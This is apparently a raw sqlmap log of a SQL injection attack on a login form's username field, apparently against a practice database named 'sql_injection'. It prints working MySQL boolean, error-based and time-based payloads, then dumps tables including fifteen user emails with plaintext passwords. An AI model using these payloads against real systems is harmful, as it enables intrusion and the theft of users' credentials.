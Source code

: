

---


# Output
---

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:33:02 /2025-07-04/

[17:33:02] [INFO] parsing HTTP request from 'burp'
[17:33:02] [INFO] resuming back-end DBMS 'mysql' 
[17:33:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-3456' OR 6429=6429#&password=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=1' AND (SELECT 5745 FROM(SELECT COUNT(*),CONCAT(0x71787a7671,(SELECT (ELT(5745=5745,1))),0x7170766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- nnKo&password=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=1' AND (SELECT 1547 FROM (SELECT(SLEEP(5)))Dzip)-- HCce&password=1
---
[17:33:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:33:02] [INFO] fetching database names
[17:33:02] [INFO] resumed: 'information_schema'
[17:33:02] [INFO] resumed: 'mysql'
[17:33:02] [INFO] resumed: 'performance_schema'
[17:33:02] [INFO] resumed: 'sql_injection'
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sql_injection

[17:33:02] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:33:02] [INFO] fetching current database
[17:33:02] [INFO] resumed: 'sql_injection'
[17:33:02] [INFO] fetching tables for database: 'sql_injection'
[17:33:02] [INFO] resumed: 'images'
[17:33:02] [INFO] resumed: 'users'
[17:33:02] [INFO] resumed: 'stocks'
[17:33:02] [INFO] fetching columns for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(6)'
[17:33:02] [INFO] resumed: 'username'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'email'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'password'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] resumed: 'surname'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'users' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'Angelo'
[17:33:02] [INFO] resumed: 'ephraim_frits@supermail.com'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'ii7phaufuGah'
[17:33:02] [INFO] resumed: 'Williams'
[17:33:02] [INFO] resumed: 'angelo12'
[17:33:02] [INFO] resumed: 'John'
[17:33:02] [INFO] resumed: 'JohnDMoore@dayrep.com'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'Oir6ot6Aet4'
[17:33:02] [INFO] resumed: 'Moore'
[17:33:02] [INFO] resumed: 'moore'
[17:33:02] [INFO] resumed: 'Nichole'
[17:33:02] [INFO] resumed: 'NicholeWWannamaker@teleworm.us'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'Baevaed0jah'
[17:33:02] [INFO] resumed: 'Wannamaker'
[17:33:02] [INFO] resumed: 'nicool'
[17:33:02] [INFO] resumed: 'Lewis'
[17:33:02] [INFO] resumed: 'LewisLSing@teleworm.us'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'aeShek9d'
[17:33:02] [INFO] resumed: 'Sing'
[17:33:02] [INFO] resumed: 'singlewis'
[17:33:02] [INFO] resumed: 'Rebecca'
[17:33:02] [INFO] resumed: 'RebeccaJRussell@rhyta.com'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'uQuah5athah'
[17:33:02] [INFO] resumed: 'Russell'
[17:33:02] [INFO] resumed: 'russrebecca'
[17:33:02] [INFO] resumed: 'Arthur'
[17:33:02] [INFO] resumed: 'ArthurHNadeau@dayrep.com'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'to4ixia7C'
[17:33:02] [INFO] resumed: 'Nadeau'
[17:33:02] [INFO] resumed: 'arthurnad'
[17:33:02] [INFO] resumed: 'teadorate'
[17:33:02] [INFO] resumed: 'temojev119@drlatvia.com'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'temojev119'
[17:33:02] [INFO] resumed: 'macheal'
[17:33:02] [INFO] resumed: 'teador'
[17:33:02] [INFO] resumed: 'Mary'
[17:33:02] [INFO] resumed: 'MaryGChatterton@rhyta.com'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'Iequahx4'
[17:33:02] [INFO] resumed: 'G.Chatterton'
[17:33:02] [INFO] resumed: 'Thiped'
[17:33:02] [INFO] resumed: 'Carrie'
[17:33:02] [INFO] resumed: 'CarrieDYoung@rhyta.com'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'kei7Ru4aay'
[17:33:02] [INFO] resumed: 'Young'
[17:33:02] [INFO] resumed: 'Duccoldany'
[17:33:02] [INFO] resumed: 'Karen'
[17:33:02] [INFO] resumed: 'KarenRVelez@rhyta.com'
[17:33:02] [INFO] resumed: '10'
[17:33:02] [INFO] resumed: 'aiPh1aht'
[17:33:02] [INFO] resumed: 'Velez'
[17:33:02] [INFO] resumed: 'Basure'
[17:33:02] [INFO] resumed: 'Virginia'
[17:33:02] [INFO] resumed: 'VirginiaJBryson@jourrapide.com'
[17:33:02] [INFO] resumed: '11'
[17:33:02] [INFO] resumed: 'Oom1dai2Ae'
[17:33:02] [INFO] resumed: 'Bryson'
[17:33:02] [INFO] resumed: 'Lonce1992'
[17:33:02] [INFO] resumed: 'Tiffany'
[17:33:02] [INFO] resumed: 'TiffanyRGriffith@dayrep.com'
[17:33:02] [INFO] resumed: '12'
[17:33:02] [INFO] resumed: 'ieSh6aim'
[17:33:02] [INFO] resumed: 'Griffith'
[17:33:02] [INFO] resumed: 'Lawas1965'
[17:33:02] [INFO] resumed: 'Heather'
[17:33:02] [INFO] resumed: 'HeatherLJohnson@armyspy.com'
[17:33:02] [INFO] resumed: '13'
[17:33:02] [INFO] resumed: 'Fah6einai7s'
[17:33:02] [INFO] resumed: 'Johnson'
[17:33:02] [INFO] resumed: 'Rompubse'
[17:33:02] [INFO] resumed: 'Ramona'
[17:33:02] [INFO] resumed: 'RamonaKWebster@dayrep.com'
[17:33:02] [INFO] resumed: '14'
[17:33:02] [INFO] resumed: 'aeYahm6zee0'
[17:33:02] [INFO] resumed: 'Webster'
[17:33:02] [INFO] resumed: 'Sequand'
[17:33:02] [INFO] resumed: 'Sandra'
[17:33:02] [INFO] resumed: 'andraJFraser@teleworm.us'
[17:33:02] [INFO] resumed: '15'
[17:33:02] [INFO] resumed: 'Oemeey3uji'
[17:33:02] [INFO] resumed: 'Fraser'
[17:33:02] [INFO] resumed: 'Moret1948'
Database: sql_injection
Table: users
[15 entries]
+----+--------------------------------+-----------+--------------+--------------+-------------+
| id | email                          | name      | surname      | password     | username    |
+----+--------------------------------+-----------+--------------+--------------+-------------+
| 1  | ephraim_frits@supermail.com    | Angelo    | Williams     | ii7phaufuGah | angelo12    |
| 2  | JohnDMoore@dayrep.com          | John      | Moore        | Oir6ot6Aet4  | moore       |
| 3  | NicholeWWannamaker@teleworm.us | Nichole   | Wannamaker   | Baevaed0jah  | nicool      |
| 4  | LewisLSing@teleworm.us         | Lewis     | Sing         | aeShek9d     | singlewis   |
| 5  | RebeccaJRussell@rhyta.com      | Rebecca   | Russell      | uQuah5athah  | russrebecca |
| 6  | ArthurHNadeau@dayrep.com       | Arthur    | Nadeau       | to4ixia7C    | arthurnad   |
| 7  | temojev119@drlatvia.com        | teadorate | macheal      | temojev119   | teador      |
| 8  | MaryGChatterton@rhyta.com      | Mary      | G.Chatterton | Iequahx4     | Thiped      |
| 9  | CarrieDYoung@rhyta.com         | Carrie    | Young        | kei7Ru4aay   | Duccoldany  |
| 10 | KarenRVelez@rhyta.com          | Karen     | Velez        | aiPh1aht     | Basure      |
| 11 | VirginiaJBryson@jourrapide.com | Virginia  | Bryson       | Oom1dai2Ae   | Lonce1992   |
| 12 | TiffanyRGriffith@dayrep.com    | Tiffany   | Griffith     | ieSh6aim     | Lawas1965   |
| 13 | HeatherLJohnson@armyspy.com    | Heather   | Johnson      | Fah6einai7s  | Rompubse    |
| 14 | RamonaKWebster@dayrep.com      | Ramona    | Webster      | aeYahm6zee0  | Sequand     |
| 15 | andraJFraser@teleworm.us       | Sandra    | Fraser       | Oemeey3uji   | Moret1948   |
+----+--------------------------------+-----------+--------------+--------------+-------------+

[17:33:02] [INFO] table 'sql_injection.users' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/users.csv'
[17:33:02] [INFO] fetching columns for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'path'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'images' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'images/1.png'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'images/2.png'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'images/3.png'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'images/4.png'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'images/5.png'
[17:33:02] [INFO] resumed: '5'
[17:33:02] [INFO] resumed: 'images/6.png'
[17:33:02] [INFO] resumed: '6'
[17:33:02] [INFO] resumed: 'images/7.png'
[17:33:02] [INFO] resumed: '7'
[17:33:02] [INFO] resumed: 'images/8.png'
[17:33:02] [INFO] resumed: '8'
[17:33:02] [INFO] resumed: 'images/9.png'
[17:33:02] [INFO] resumed: '9'
[17:33:02] [INFO] resumed: 'images/10.png'
[17:33:02] [INFO] resumed: '10'
Database: sql_injection
Table: images
[10 entries]
+----+---------------+
| id | path          |
+----+---------------+
| 1  | images/1.png  |
| 2  | images/2.png  |
| 3  | images/3.png  |
| 4  | images/4.png  |
| 5  | images/5.png  |
| 6  | images/6.png  |
| 7  | images/7.png  |
| 8  | images/8.png  |
| 9  | images/9.png  |
| 10 | images/10.png |
+----+---------------+

[17:33:02] [INFO] table 'sql_injection.images' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/images.csv'
[17:33:02] [INFO] fetching columns for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'id'
[17:33:02] [INFO] resumed: 'int(11)'
[17:33:02] [INFO] resumed: 'name'
[17:33:02] [INFO] resumed: 'varchar(255)'
[17:33:02] [INFO] fetching entries for table 'stocks' in database 'sql_injection'
[17:33:02] [INFO] resumed: 'iphone11'
[17:33:02] [INFO] resumed: '1'
[17:33:02] [INFO] resumed: 'applewatch7'
[17:33:02] [INFO] resumed: '2'
[17:33:02] [INFO] resumed: 'iphone13'
[17:33:02] [INFO] resumed: '3'
[17:33:02] [INFO] resumed: 'iphonese'
[17:33:02] [INFO] resumed: '4'
[17:33:02] [INFO] resumed: 'apple20w'
[17:33:02] [INFO] resumed: '5'
Database: sql_injection
Table: stocks
[5 entries]
+----+-------------+
| id | name        |
+----+-------------+
| 1  | iphone11    |
| 2  | applewatch7 |
| 3  | iphone13    |
| 4  | iphonese    |
| 5  | apple20w    |
+----+-------------+

[17:33:02] [INFO] table 'sql_injection.stocks' dumped to CSV file '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz/dump/sql_injection/stocks.csv'
[17:33:02] [INFO] fetched data logged to text files under '/home/espada/.local/share/sqlmap/output/lzwdgttvhlknjbblqadq.tiagocardoso.xyz'

[*] ending @ 17:33:02 /2025-07-04/


